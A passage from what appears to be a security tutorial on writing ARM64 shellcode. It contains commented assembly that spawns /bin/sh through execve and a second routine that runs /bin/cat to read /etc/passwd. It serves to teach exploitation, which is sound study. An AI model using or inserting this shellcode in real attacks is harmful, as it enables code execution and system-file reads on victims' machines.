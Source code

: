 ```armasm
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```

{{#endtab}}

{{#tab name="with adr for linux"}}

```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```

{{#endtab}}
{{#endtabs}}

#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
    ; Prepare the arguments for the execve syscall
    sub sp, sp, #48        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, cat_path
    str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
    adr x0, passwd_path    ; Get the address of "/etc/passwd"
    str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
    str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)

    adr x0, cat_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall


cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
